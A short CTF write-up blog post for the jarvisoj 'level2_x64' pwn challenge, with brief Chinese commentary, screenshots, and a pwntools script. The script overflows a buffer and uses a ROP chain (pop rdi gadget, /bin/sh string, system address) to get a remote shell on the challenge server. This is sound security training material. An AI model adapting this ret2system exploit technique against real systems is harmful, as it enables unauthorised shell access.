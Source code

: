 ```yaml
---
layout:     post
title:      jarvisoj [XMAN]level2_x64
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>https://www.jarvisoj.com  
>  
>Download:  
>https://dn.jarvisoj.com/challengefiles/level2_x64.04d700633c6dc26afc6a1e7e9df8c94e  
>  
>Address:  
>nc pwn2.jarvisoj.com 9882  
<!-- more -->


### 0x00 exploit

参考level0的解法，构造system("/bin/sh")

![](/assets/img/writeup/pwn/2017-07-12-jarvisoj-level2_x64/0x00.png)

最终exploit如下

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

junk = 'A' * (0x80 + 0x08)
system_addr = 0x4004C0 # 0x600A78
bin_sh_addr = 0x600A90
pop_rdi_ret = 0x4006b3

Io = remote('pwn2.jarvisoj.com', 9882)

payload = junk + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr)

Io.send(payload)
Io.interactive()
```

得到flag

![](/assets/img/writeup/pwn/2017-07-12-jarvisoj-level2_x64/0x01.png)